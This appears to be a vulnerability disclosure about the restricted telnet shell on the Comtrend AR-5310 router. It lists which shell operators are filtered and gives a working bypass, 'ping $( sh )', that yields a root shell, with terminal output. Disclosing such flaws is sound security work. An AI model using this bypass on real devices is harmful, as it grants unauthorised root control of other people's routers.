 Vulnerable product: Comtrend AR-5310 , firmware version: GE31-412SSG-C01_R10.A2pG039u.d24k

TL;DR: A local user can bypass the restricted shell using the command substitution operator $( commmand )

Comtrend AR 5310 routers have a restricted shell, the list of command a user can execute is

[ ? help logout exit quit reboot ads lxdslctl xtm loglevel logdest virtualserver ddns dumpcfg 
dumpmdm meminfo psp dumpsysinfo dnsproxy syslog ifconfig ping sntp sysinfo tftp wlan wlctl
vlanctl arp defaultgateway dhcpserver dns lan lanhosts passwd ppp restoredefault route
nslookup traceroute save uptime exitOnIdle wan build version serialnumber modelname acccntr
upnp urlfilter timeres tr69cfg logouttime ipneigh dhcp6sinfo nat mcpctl ]



Usual terminal constructs like:
 - the command separator ";" 
 - the control operator  "&"  (run in forground) 
 - the redirection operator (pipe) "|" 
 - the command substituion operator "`"
 
are all filtered as shown here :
```
 > ;
Warning: operator ; is not supported!
telnetd:error:476.449:processInput:490:unrecognized command 
 > |
Warning: operator | is not supported!
telnetd:error:484.871:processInput:490:unrecognized command 
 > &
Warning: operator & is not supported!
telnetd:error:487.421:processInput:490:unrecognized command 
 > `
Warning: operator ` is not supported!
telnetd:error:495.334:processInput:490:unrecognized command 
```

Still the $ operator is not filtered:
```
 > $
telnetd:error:497.862:processInput:490:unrecognized command $
```

Here i came to the conclusion that invoking a command with $( subcommend ) as argument would 
give an obvious shell
```
> ping $( sh )                                                              
exec >&2                                                                     
ps x | grep telnet                                                           
18333 root      4164 S    telnetd -m 0                                       
18334 root      4168 S    telnetd -m 0                                       
```

**EOF**

